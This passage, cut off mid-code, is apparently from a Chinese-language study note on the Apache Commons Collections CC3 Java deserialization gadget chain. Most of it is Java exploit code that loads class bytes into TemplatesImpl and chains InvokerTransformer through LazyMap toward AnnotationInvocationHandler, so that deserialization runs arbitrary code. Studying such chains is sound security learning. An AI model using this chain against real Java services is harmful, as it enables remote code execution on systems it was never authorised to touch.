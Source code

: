 再实现后再运行CC3就可以执行了

![Untitled](attachments/CC链%20attachments/Untitled%2012.png)

这个时候就说明只要调用了TemplatesImpl.newTransformer方法就可以执行恶意代码

转化为ChainedTransformer的链式调用后，将cc6中的LazyMap利用挪过来就可以实现反序列化

```java
package org.cc.cc1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "aaa");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\JavaSec\\CCdebug\\target\\classes\\org\\cc\\cc1\\test.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates, codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        //templates.newTransformer();

        org.apache.commons.collections.Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(1);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazyMap= LazyMap.decorate(map, chainedTransformer);
        //反射机制调用AnnotationInvocationHandler类的构造函数
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationdhdConstructor = cl.getDeclaredConstructor(Class.class, Map.class);
        //取消构造函数修饰符限制
        annotationInvocationdhdConstructor.setAccessible(true);
```